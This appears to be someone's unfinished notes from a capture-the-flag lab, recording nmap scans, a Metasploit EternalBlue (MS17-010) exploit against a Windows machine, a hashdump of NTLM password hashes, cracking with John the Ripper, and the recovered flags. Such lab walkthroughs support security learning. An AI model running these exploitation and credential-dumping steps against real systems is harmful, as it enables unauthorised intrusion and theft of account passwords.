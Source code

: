 # TODO: need to fininsh this

> nmap -A $TARGET
> nmap -p 1-1000 $TARGET
> nmap --script vuln -p 135,139,445,3389 $TARGET

### Metasploit

> msf\> search ms17

> msf\> use exploit/windows/smb/ms17_010_eternalblue

> msf\> sessions -u 1


> ps

migrated to 2528 SVCHOST.exe

### Cracking

> hashdump

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
> john --wordlist=/usr/share/wordlists/rockyou.txt --forman=NT jon.hash


### Flags

1. flag 1:

	> C:\>type flag1.txt

	```
	flag{access_the_machine}
	```

2. flag 2:
	googled: where does windows store passwords.

	C:\Windows\System32\config>type flag2.txt

	```
	flag{sam_database_elevated_access}
	```

3. flag 3:
	used write-ups. Didn't get the hint

	> C:\Users\Jon\Documents>type flag3.txt
	type flag3.txt
	flag{admin_documents_can_be_valuable}
